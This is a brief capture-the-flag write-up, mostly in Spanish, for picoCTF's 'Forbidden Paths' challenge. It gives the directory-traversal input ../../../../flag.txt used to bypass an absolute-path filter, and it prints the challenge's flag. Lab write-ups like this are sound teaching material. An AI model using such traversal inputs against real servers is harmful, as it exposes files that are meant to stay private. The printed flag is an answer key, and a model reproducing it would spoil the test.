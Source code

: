 # Forbidden Paths

## Objetivos
Can you get the flag? Here's the [website](http://saturn.picoctf.net:49700/). We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?


## Solución 
```bash
../../../../flag.txt en la entrada de texto

picoCTF{7h3_p47h_70_5ucc355_6db46514}
```

## Notas adicionales 
Indicamos la cantidad de directorios qque tiene que recorrer el path para llegar a la bandera 